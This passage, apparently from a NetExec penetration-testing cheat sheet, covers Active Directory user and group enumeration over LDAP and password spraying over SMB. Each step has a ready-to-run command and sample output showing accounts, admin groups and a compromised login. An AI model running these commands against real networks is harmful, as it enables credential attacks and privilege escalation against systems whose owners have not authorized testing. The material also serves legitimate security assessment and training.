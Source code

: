 ### 5. Domain User Enumeration
**Purpose**: Retrieve Active Directory user accounts.

**Command**:
```bash
nxc ldap 192.168.1.100 -u 'administrator' -p 'P@ssw0rd' --users
```
**Explanation**:
- Queries Active Directory via LDAP for user accounts.
- Example output:
  ```
  LDAP        192.168.1.100 389 DC01 [+] example.com\administrator:P@ssw0rd
  LDAP        192.168.1.100 389 DC01 [*] Users: user1, user2, admin1
  ```

**Use Case**: Maps user accounts for password spraying or targeted attacks.

### 6. Domain Group Enumeration
**Purpose**: List domain or local groups and their members.

**Command**:
```bash
nxc ldap 192.168.1.100 -u 'user1' -p 'Password123' --groups
```
**Explanation**:
- Queries Active Directory for group memberships.
- Example output:
  ```
  LDAP        192.168.1.100 389 DC01 [+] example.com\user1:Password123
  LDAP        192.168.1.100 389 DC01 [*] Groups: Domain Admins (admin1, admin2), Domain Users (user1, user2)
  ```

**Use Case**: Identifies high-privilege groups for escalation paths.

### 7. Password Spraying
**Purpose**: Test a single password across multiple usernames to avoid lockouts.

**Command**:
```bash
nxc smb 192.168.1.0/24 -u users.txt -p 'Password123' --continue-on-success
```
**Explanation**:
- Uses a username list (`users.txt`) to test a password.
- Example `users.txt`:
  ```
  administrator
  user1
  user2
  ```
- Example output:
  ```
  SMB         192.168.1.100 445 DC01 [+] example.com\administrator:Password123 (Pwn3d!)
  SMB         192.168.1.100 445 DC01 [-] example.com\user1:Password123 STATUS_LOGON_FAILURE
  ```
